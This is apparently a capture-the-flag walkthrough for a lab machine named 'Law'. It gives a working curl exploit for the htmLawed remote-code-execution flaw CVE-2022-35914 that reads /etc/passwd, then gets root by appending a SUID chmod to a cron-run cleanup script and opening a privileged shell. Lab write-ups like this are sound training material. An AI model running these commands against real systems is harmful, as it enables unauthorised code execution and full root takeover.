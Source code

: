 _____

# Walkthrough for Law

# Enumeration

## Nmap

With nmap scan, we notice a web server on the target machine.

Visiting the web server, we see that "**HTML AWED**" running.

## HTML AWED

## Exploitation

### Remote Code Execution

Search "**htmlawed cve**" on google.


The **"[CVE-2022-35914](https://nvd.nist.gov/vuln/detail/cve-2022-35914)"** has been recorded for **HTM LAWED**.

The detail exploitation steps can be found here: https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/#exploitation

Code execution can be achieved like below,

```bash
~  λ curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://172.16.201.51 |egrep '&nbsp; [[0-9]+] =&gt;'| sed -E 's/&nbsp; [[0-9]+] =&gt; (.*)<br />/1/'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

## Privelege Escalation

We notice the file, `/var/www/cleanup.sh`. After listening with pspy we see that it is being executed in every minute.

We have full control over this file so we can write our malicious payload and achieve code execution.

```
$ ls -alh /bin/bash
-rwxr-xr-x 1 root root 1.2M Mar 27  2022 /bin/bash
$ echo "chmod u+s /bin/bash" >> cleanup.sh
$ cat cleanup.sh
#!/bin/bash

rm -rf /var/log/apache2/error.log
rm -rf /var/log/apache2/access.log
chmod u+s /bin/bash
```

And we become root.

```
www-data@law:/var/www$ ls -alh /bin/bash
ls -alh /bin/bash
-rwsr-xr-x 1 root root 1.2M Mar 27  2022 /bin/bash
www-data@law:/var/www$ /bin/bash -p
/bin/bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash -i -p
bash: cannot set terminal process group (520): Inappropriate ioctl for device
bash: no job control in this shell
```